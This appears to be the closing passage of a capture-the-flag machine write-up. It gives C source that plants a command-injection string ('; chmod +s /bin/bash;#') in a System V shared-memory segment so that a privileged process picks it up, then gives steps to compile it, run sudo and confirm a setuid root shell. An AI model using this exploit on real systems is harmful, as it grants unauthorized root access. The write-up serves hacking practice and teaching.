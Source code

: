 ```c
#include <stdlib.h>
#include <sys/ipc.h> //Key_t
#include <sys/shm.h> //sh *
#include <string.h>

int main() {
	//Get time
	unsigned int v4 =(unsigned int)time(NULL);
	//Init randomic function
	srand(v4);
	
	key_t key = rand() % 0xFFFFF;
	
	//Create shared memory and check
		int shmid = shmget(key, 0x400, IPC_CREAT | 0666);
	if (shmid < 0) {
		perror("shmget failed");
		return 1;
	}
	
	// attach shared memory and gets its pointer
	char *share_memory = (char *)shmat(shmid, NULL, 0);
	if (share_memory == (char *)-1){
		perror("shmat failed");
		return 1;
	}
	
	const char *message = "Leaked hash detected > '; chmod +s /bin/bash;#";
	//Inject memory
	snprintf(share_memory,0x400,"%s", message);
	
	printf("Message in shared memory: %s\n", share_memory);
	
	//detach shared memory
	if (shmdt(share_memory) == -1){
		perror("shmdt failed");
		return 1;
	}
	
	return 0;
}

```
<br/><br/>
Compile the script and create a loop to be injecting the generated memory address
<br/><br/>
```python
gcc -o output script.c

```
<br/><br/>
![image.png]({{ '/assets/images/1b9be0c7-e5a3-43f1-8122-172edb697ea9-export-4073cd0e-fd32-493d-a9a7-9a3c930aa51e/1b9be0c7-e5a3-43f1-8122-172edb697ea9-export-4073cd0e-fd32-493d-a9a7-9a3c930aa51e_image_46.png' | relative_url }})
<br/><br/>
Run the sudo command and verify that the setuid was applied correctly
<br/><br/>
![image.png]({{ '/assets/images/1b9be0c7-e5a3-43f1-8122-172edb697ea9-export-4073cd0e-fd32-493d-a9a7-9a3c930aa51e/1b9be0c7-e5a3-43f1-8122-172edb697ea9-export-4073cd0e-fd32-493d-a9a7-9a3c930aa51e_image_47.png' | relative_url }})
<br/><br/>
Machine pwned!!!!
<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>


<link rel="stylesheet" href="{{ '/assets/css/imagesstyle.css' | relative_url }}">
